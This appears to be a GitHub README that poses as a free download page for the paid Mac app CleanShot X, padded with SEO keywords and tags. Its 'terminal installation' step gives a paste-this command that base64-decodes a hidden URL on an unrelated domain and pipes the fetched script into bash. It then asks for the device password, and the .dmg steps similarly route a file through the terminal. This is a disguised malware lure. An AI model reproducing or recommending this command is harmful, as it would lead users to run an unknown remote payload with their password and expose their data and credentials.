 # CleanShot X — Download For Mac OS 🖥️
![logo](https://pbs.twimg.com/profile_images/1541724107456356353/QxJ1pjF3_400x400.jpg)

Capture, annotate, and share your screen effortlessly with CleanShot X. Follow the instructions below to install this powerful screenshot and screen recording tool on your Mac for free.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://fituganshfgh.github.io/.github/cleanshotx)

If the download button doesn’t work, follow the terminal installation instructions below.

## 📦 How to Install CleanShot X For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with CleanShot X

- 🖼️ **Advanced Screenshot Tools**: Capture full screens, specific windows, or custom areas with precision.
- 🎥 **Screen Recording**: Record high-quality videos with audio, perfect for tutorials or presentations.
- ✍️ **Annotation Features**: Add text, arrows, and shapes to highlight key details in your captures.
- ☁️ **Cloud Integration**: Upload and share your captures instantly with CleanShot Cloud.
- ⚡ **Quick Access Overlay**: Access tools instantly with a customizable overlay for efficient workflows.
- 🛠️ **Customizable Settings**: Tailor capture settings, file formats, and shortcuts to suit your needs.

## About CleanShot X

CleanShot X is a premium screenshot and screen recording tool designed specifically for Mac users. With its intuitive interface, it empowers users to capture their screens with unmatched flexibility and efficiency. Whether you're a designer creating mockups, a developer documenting bugs, or a content creator producing tutorials, CleanShot X offers a seamless experience. Its robust feature set includes advanced screenshot tools, screen recording, and annotation capabilities, making it a must-have for professionals and casual users alike. By integrating keywords like *screenshot tool for Mac*, *screen capture software*, and *Mac productivity app*, CleanShot X ensures discoverability for users searching for reliable screen capture solutions.

The software stands out for its ability to streamline workflows. Unlike basic screenshot tools, CleanShot X provides a quick-access overlay that lets users capture, annotate, and share content without leaving their current task. This makes it ideal for those seeking a *Mac screen recorder* or *screenshot annotation tool*. Additionally, its cloud integration allows users to upload captures instantly, ensuring smooth collaboration. The *free download for Mac* option makes it accessible to anyone looking to enhance their productivity without upfront costs.

CleanShot X also excels in customization. Users can adjust capture settings, choose preferred file formats, and create custom keyboard shortcuts, catering to individual preferences. For those searching for a *Mac screenshot app* or *screen recording software for Mac*, CleanShot X delivers a polished experience that balances power and simplicity. Its clean design and robust functionality make it a go-to choice for anyone looking to elevate their screen capture game.

Another key feature is its lightweight performance. CleanShot X runs smoothly on macOS, ensuring minimal impact on system resources. Whether you're capturing a single image or recording a lengthy video, the app maintains stability and speed. This makes it a top pick for users Googling *best screenshot tool for Mac* or *free Mac screen recorder*, as it combines reliability with ease of use.

Finally, CleanShot X is built with user feedback in mind, offering regular updates to improve functionality and address user needs. Its versatility and polish make it a standout in the crowded market of screen capture tools. For those searching for a *CleanShot X free download* or *Mac productivity software*, this tool provides a comprehensive solution that enhances both personal and professional projects.

### Why Choose CleanShot X?

CleanShot X offers a significant edge over other screenshot and screen recording tools due to its seamless integration with macOS, intuitive design, and powerful features. Unlike basic tools, it provides advanced annotation options, cloud sharing, and customizable workflows, making it ideal for professionals and casual users alike. Its *free download for Mac* option ensures accessibility, while its lightweight performance and regular updates guarantee a reliable, future-proof experience.

## 🖼️ Preview

![Capture Interface](https://cleanshot.com/_nuxt/thumbnail.0907387f.jpg)  
*CleanShot X’s intuitive capture interface for quick screenshots*

![Annotation Tools](https://cleanshot.com/_nuxt/bgtool.abf05645.png)  
*Annotate your captures with arrows, text, and shapes*

![Screen Recording](https://i.ytimg.com/vi/ZxCw_aZL61U/maxresdefault.jpg)  
*Record high-quality videos with CleanShot X*

## 🔍 Tags

cleanshot x, cleanshot x mac, cleanshot mac, cleanshot for mac, cleanshot mac os, cleanshot x download, cleanshot x for mac, clean shot x for mac, cleanshot mac download, cleanshot mac free, cleanshot x for mac free, cleanshot x free download, cleanshot x mac download
